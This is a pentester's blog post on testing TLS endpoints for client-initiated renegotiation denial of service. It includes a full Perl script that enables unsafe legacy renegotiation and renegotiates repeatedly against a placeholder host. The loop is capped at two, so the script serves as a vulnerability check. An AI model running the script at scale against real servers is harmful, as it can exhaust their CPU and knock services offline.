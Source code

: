 ```yaml
---
layout: post
title:  "DoSing TLS endpoints"
date:   2021-03-25
categories: pentest perl
author: jasa
---
```


During these day, I had an interesting task: to test if som specific endpoint is vulnerable against a client-side TLS renegotiation DoS vulnerability.

# The vulnerability

Negotiating a shared secret requires a lot of computation and thus needs some CPU time. The idea of the attack is to initiate a TLS connection and then request a renegotiation of the shared secret over and over again. This would consume a lot of CPU time from the server, which is the resource we're going to exhaust.

# The test

To exploit the vulnerability, you must make sure that the client consume much less CPU time than the server does. So, you have to tweak the renegotiation. I didn't do this, becaus I wasn't interested in really exhausting the server resources. I was only interested in the following questions:

* Does the server really support client-initiated renegotiation?
* How many renegotiations are allowed by the server before it terminates the connection?

# What did I learn?

Most TLS implementations have removed the client-initiated renegotiation from its source code, so If you use an up-to-date implementation, chances are good that you are not vulnerable.

# Expoit source code
```perl
use Socket;
use Net::SSLeay qw(die_now die_if_ssl_error) ;
use strict;
use warnings;
use Errno qw(EINTR EIO :POSIX);
use IO::Socket::INET;

Net::SSLeay::load_error_strings();
Net::SSLeay::SSLeay_add_ssl_algorithms();
Net::SSLeay::randomize();

my $hostname = "<yourhost>";
my $port = "443";
my $request = "HEAD / HTTP/1.1\r\n\r\n";

sub error_name($) {
    my $id = shift;
    my @errors = (
        'SSL_ERROR_NONE',
        'SSL_ERROR_SSL',
        'SSL_ERROR_WANT_READ',
        'SSL_ERROR_WANT_WRITE',
        'SSL_ERROR_WANT_X509_LOOKUP',
        'SSL_ERROR_SYSCALL',
        'SSL_ERROR_ZERO_RETURN',
        'SSL_ERROR_WANT_CONNECT',
        'SSL_ERROR_WANT_ACCEPT'
    );
    die "invalid error number" unless $errors[$id];
    my $result;
    return $errors[$id];
}

sub display_result($$$) {
    my $ssl = shift;
    my $result = shift;
    my $function = shift;

    die_if_ssl_error("ssl $function ($!)");

    if (0 != (my $error_id = Net::SSLeay::get_error($ssl, $result))) {
        my $error = error_name($error_id);
        print ("$function() = $error\n");

        while (0 != (my $rv = Net::SSLeay::ERR_get_error())) {
            my $error_desc = Net::SSLeay::ERR_error_string($rv);
            print ("stack: $error_desc\n");
        }
    }
}

sub set_options($$) {
    my $ctx = shift;
    my $option = shift;
    Net::SSLeay::CTX_set_options($ctx, $option)
     and die_if_ssl_error("ssl ctx set options ($!)");
}

sub set_version($$) {
    my $ctx = shift;
    my $version = shift;
    Net::SSLeay::CTX_set_ssl_version($ctx, $version)
     and die_if_ssl_error("ssl ctx set version ($!)");
}

sub set_ciphers($$) {
    my $ctx = shift;
    my $ciphers = shift;
    Net::SSLeay::CTX_set_cipher_list($ctx, $ciphers)
     and die_if_ssl_error("ssl ctx set ciphers suites ($!)");
}

sub ssl_connect($$) {
    my $ctx = shift;
    my $socket = shift;
    my $ssl = Net::SSLeay::new($ctx) or die_now("Failed to create SSL $!");
    Net::SSLeay::set_fd($ssl, $socket->fileno);
    my $res = Net::SSLeay::connect($ssl) and die_if_ssl_error("ssl connect ($!)");
    my $error = error_name(Net::SSLeay::get_error($ssl, $res));
    print ("connect() = $error\n");
    print "Cipher `" . Net::SSLeay::get_cipher($ssl) . "'\n";
    return $ssl;
}

sub configure_context($$) {
    my $ctx = shift;
    my $ciphers = shift;
    set_options($ctx, &Net::SSLeay::OP_ALL);
    set_options($ctx, &Net::SSLeay::OP_ALLOW_UNSAFE_LEGACY_RENEGOTIATION);
    #set_options($ctx, &Net::SSLeay::OP_SSL_OP_LEGACY_SERVER_CONNECT);
    set_version($ctx, &Net::SSLeay::TLSv1_2_method);
    set_ciphers($ctx, $ciphers);
}
my $socket = IO::Socket::INET->new(
    Type => IO::Socket::SOCK_STREAM,
    Proto => 'tcp',
    PeerAddr => $hostname,
    PeerPort => $port,
    Blocking => 1
) or die ("unable to connect: $!\n");

 
my $ctx = Net::SSLeay::CTX_new() or die_now("Failed to create SSL_CTX $!");
configure_context($ctx, "DHE:EDH:ECDHE:EECDH:RSA:DH:ECDH");
my $ssl = ssl_connect($ctx, $socket);

my $ret;
for (my $i=0; $i<2; $i++) {
    Net::SSLeay::renegotiate($ssl);
    die_if_ssl_error("ssl renegotiate ($!)");

    if (! $socket->connected()) {
        die("network connection has died");
    }

    $ret = Net::SSLeay::do_handshake($ssl);
    display_result($ssl, $ret, "do_handshake");
}

Net::SSLeay::free ($ssl);               # Tear down connection
Net::SSLeay::CTX_free ($ctx);
close $socket;
```